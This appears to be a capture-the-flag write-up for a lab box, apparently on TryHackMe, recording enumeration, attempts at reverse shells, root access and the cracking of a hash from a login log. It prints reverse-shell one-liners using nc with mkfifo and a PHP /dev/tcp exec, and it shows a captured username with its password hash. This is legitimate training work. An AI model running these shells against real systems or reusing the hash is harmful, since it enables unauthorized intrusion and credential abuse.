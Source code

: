 # First Contact

This time I thought would continue black-boxing from this point:

Enumerate box
```bash
which nc
/usr/bin/nc

which python3
/usr/bin/python3

id
uid=0(root) gid=0(wheel) groups=0(wheel)
```
No socat unfortunately, but hopeful I will hopeful use it later.
Check the tmp directory exists and its contents
![fw-tmp-dir](Screenshots/fw-ls-la-tmp)
Executed a Bash shell, change $IP and $PORT to Kali VM with listener listening:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f
chmod +x /tmp/f
/tmp/f
```

![denied1](Screenshots/fw-Shell-denied.png)

I tried also:
```bash
chmod 777 /tmp/f

nc -lvnp 8080 # only got usage prompt so no execution:
usage: nc [-46DdEFhklNnrStUuvz] [-e policy] [-I length] [-i interval] [-O length]
	  [-P proxy_username] [-p source_port] [-s source] [-T ToS]
	  [-V rtable] [-w timeout] [-X proxy_protocol]
	  [-x proxy_address[:port]] [destination] [port]
```

The I tried a pentest monkey webshell seeing as it is a website of sorts.

```bash
chmod +x /tmp/monkey.php
/tmp/monkey

/tmp/monkey.php: cannot open ?php: No such file or directory
/tmp/monkey.php: //: Permission denied
/tmp/monkey.php: 3: Syntax error: "(" unexpected
```

Also it uploaded to /tmp, not /var/www/html/. So then I tried:

```php
"<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ip/$port 0>&1'");?>"
```

![denied2]((Screenshots/fw-phpExecDenied.png)

Then tried putting the pentest monkey code into the execute php command changed the I provided IP address of the Kali VM on THM to its inet IP not generic IP used in reverse shells. 

![root-fw](Screenshots/fw-initial-root.png)

And the flag

![root-fw](Screenshots/fw-root-flag.png)

Tried stablising with:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

But it broke, tried again:

![root-stab](Screenshots/fw-shell-stab-broke.png)



![root-log](Screenshots/fw-find-logs.png)

Why would you have login.log

HumphreyW:1c13639dba96c7b53d26f7d00956a364

![cracked](Screenshots/fw-humpreyw-cracked.png)

Note that if this was an actual Pentest that permission to use third party Hashcracking would have to be within scope due to handing over confidential data to an outside source in the form of a hash. If that third was compromised morally or in terms of their security then traffic data could be linked to the hash.

